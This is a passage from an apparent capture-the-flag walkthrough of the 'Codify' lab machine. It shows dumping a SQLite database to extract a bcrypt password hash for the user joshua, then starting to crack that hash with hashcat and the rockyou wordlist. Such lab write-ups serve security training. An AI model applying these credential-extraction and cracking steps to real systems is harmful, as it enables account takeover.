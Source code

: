     
    svc@codify:/var/www/contact$ sqlite3 tickets.db 
    SQLite version 3.37.2 2022-01-06 13:25:41
    Enter ".help" for usage hints.
    sqlite> .tables
    tickets  users
    

`.schema` will give information about the columns in each table:

    
    
    sqlite> .schema tickets
    CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
    sqlite> .schema users
    CREATE TABLE users (
            id INTEGER PRIMARY KEY AUTOINCREMENT, 
            username TEXT UNIQUE, 
            password TEXT
        );
    

`tickets` doesn’t have anything interesting:

    
    
    sqlite> .headers on
    sqlite> select * from tickets;
    id|name|topic|description|status
    1|Tom Hanks|Need networking modules|I think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!|open
    2|Joe Williams|Local setup?|I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.|open
    

`users` has a single row:

    
    
    sqlite> select * from users;
    id|username|password
    3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
    

### Crack Password

I’ll save that hash to a file and pass it to `hashcat`:

    
    
    $ cat joshua.hash 
    $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
    $ hashcat joshua.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    The following 4 hash-modes match the structure of your input hash:
    
          # | Name                                                       | Category
      ======+============================================================+======================================
       3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
      25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
      25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
      28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
    ...[snip]...
    